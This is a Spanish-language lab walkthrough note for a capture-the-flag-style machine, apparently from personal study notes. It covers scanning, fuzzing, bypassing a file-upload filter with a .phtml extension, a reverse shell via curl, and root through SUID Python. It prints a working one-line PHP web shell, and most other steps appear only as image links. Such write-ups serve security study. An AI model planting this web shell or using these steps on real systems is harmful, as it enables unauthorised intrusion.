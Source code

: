 Haremos los reconococimientos de nmap y vemos el puerto 80 y 22 abiertos:
![[Mis apuntes/ANEXOS/Pasted image 20230401011056.png]]

Si vemos la web es esta:
![[Mis apuntes/ANEXOS/Pasted image 20230401011433.png]]

Si hacemos fuzzing nos encontramos con un directorio de panel y otro de uploads:
![[Mis apuntes/ANEXOS/Pasted image 20230401011851.png]]

En el directorio de panel tenemos un lugar donde subir archivos:
![[Mis apuntes/ANEXOS/Pasted image 20230401011932.png]]

Si subimos un fichero .php malicioso nos va a dar error, pero el truco será en interceptar la petición web y así poder cambiar la extensión del fichero php por un phtml:
```python
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
![[Mis apuntes/ANEXOS/Pasted image 20230401013139.png]]

Y entonces ahora podremos subirlo y llamar a este archivo para obtener ejecución remota de comandos:
![[Mis apuntes/ANEXOS/Pasted image 20230401013213.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230401013225.png]]

Ahora nos creamos un servidor web con python que aloje el código para enviarnos una reverse shell y después lo llamamos y pipeamos con curl:
![[Mis apuntes/ANEXOS/Pasted image 20230401014657.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230401014615.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230401014628.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230401014638.png]]

Si hacemos una búsqueda de los permisos SUID, vemos que Python se encuentra entre ellos:
![[Mis apuntes/ANEXOS/Pasted image 20230401015128.png]]

Y también vemos estos permisos para Python:
![[Mis apuntes/ANEXOS/Pasted image 20230401015233.png]]

Por tanto nos creamos un fichero de Python con un código que nos permita escalar privilegios:
![[Mis apuntes/ANEXOS/Pasted image 20230401015723.png]]

Lo compartimos con la máquina víctima:
![[Mis apuntes/ANEXOS/Pasted image 20230401015746.png]]

Y lo ejecutamos para convertirnos en root:
![[Mis apuntes/ANEXOS/Pasted image 20230401015812.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230401015823.png]]
[[13 - Escalada de Privilegios con Python]]